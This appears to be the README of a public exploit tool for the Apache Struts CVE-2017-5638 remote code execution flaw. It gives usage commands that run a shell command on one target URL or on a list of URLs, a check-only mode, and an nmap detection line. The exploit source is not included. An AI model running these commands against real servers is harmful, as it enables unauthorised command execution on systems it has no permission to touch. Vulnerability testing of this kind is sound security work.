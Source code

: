 # Apache-Struts
### An exploit for Apache Struts CVE-2017-5638 ###


# **Usage** #

## Testing a single URL. ##
`python struts-pwn.py --url 'http://example.com/struts2-showcase/index.action' -c 'id'`
# **Nmap Recong** #
`nmap -p <port> --script http-vuln-cve2017-5638 <target>'`


## Testing a list of URLs. ##
`python struts-pwn.py --list 'urls.txt' -c 'id'`

## Checking if the vulnerability exists against a single URL. ##
`python struts-pwn.py --check --url 'http://example.com/struts2-showcase/index.action'`

## Checking if the vulnerability exists against a list of URLs. ##
`python struts-pwn.py --check --list 'urls.txt'`
